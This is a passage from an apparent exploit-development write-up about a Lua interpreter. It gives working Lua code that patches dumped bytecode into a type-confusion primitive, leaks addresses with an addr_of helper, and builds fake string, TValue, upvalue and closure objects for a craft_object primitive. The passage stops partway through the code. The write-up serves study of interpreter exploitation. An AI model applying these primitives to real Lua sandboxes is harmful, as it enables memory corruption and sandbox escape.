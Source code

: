 The code visits the `cl->upvals` array, navigates to the bth element,
and takes the pointer to the TValue value `v.p`.

All in all, what we need to craft a fake object is depicted in the image below:

![AltText](/images/alcawasm_fakeobj.png)

This deserves a try!

## Unleash the beast

A good test of our object artisanship skills would be to create
a fake string and have it correctly returned by our `craft_object`
primitive. We will choose an arbitrary length for the string, and
then verify whether Lua agrees on its length once the object
is crafted. This should confirm the primitive works.

Down below, I will list the complete code of the experiment,
which implements the diagram above:

```lua
local function ubn(n, len)
  local t = {}
  for i = 1, len do
      local b = n % 256
      t[i] = string.char(b)
      n = (n - b) / 256
  end
  return table.concat(t)
end

asnum = load(string.dump(function(x)
    for i = 0, x, x do return i end
end):gsub("\xca\x80\x00\x00", "\x38\x00\x00\x80"))

function addr_of(variable)
  return string.unpack("L", string.pack("d", asnum(variable)))
end

-- next + tt/marked/extra/padding/hash + len
fakeStr = ubn(0x0, 12) .. ubn(0x1337, 4)
print(string.format("Fake str at: 0x%2x", addr_of(fakeStr)))

-- Value + Type (LUA_VLNGSTRING = 0x54)
fakeTValue = ubn(addr_of(fakeStr) + 16, 8) .. ubn(0x54, 1)
print(string.format("Fake TValue at: 0x%2x", addr_of(fakeTValue)))

-- next + tt/marked + v
fakeUpvals = ubn(0x0, 8) .. ubn(addr_of(fakeTValue) + 16, 8)
print(string.format("Fake Upvals at: 0x%2x", addr_of(fakeUpvals)))

-- upvals
fakeClosure = ubn(addr_of(fakeUpvals) + 16, 8)
print(string.format("Fake Closureat : 0x%2x", addr_of(fakeClosure)))

craft_object = string.dump(function(closure)
    local foo
    local bar
    local target
    return (function(closure)
      (function(closure)
        print(foo)
        print(bar)
        print(target)
        target = closure
```
